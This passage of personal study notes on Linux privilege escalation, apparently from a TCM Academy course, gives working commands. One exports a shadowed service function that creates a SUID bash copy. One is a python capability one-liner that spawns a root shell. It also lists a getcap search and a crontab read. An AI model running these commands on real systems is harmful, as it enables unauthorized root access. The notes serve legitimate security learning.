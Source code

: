 We need to do another thing

```shell
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/38.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/38.png)
And like this we can get a shell as the SUID user
# Privilege Escalation via Capabilities

To search for files with capabilities, use the following command:

```shell
getcap -r / 2> /dev/null
```

Look for files with the `+ep` flag:

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/39.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/39.png)

You can exploit such files by running this command:

```shell
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/40.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/40.png)
# Privilege Escalation through Scheduled Tasks

To view cron jobs, you can use the following command:

```shell
cat /etc/crontab
```
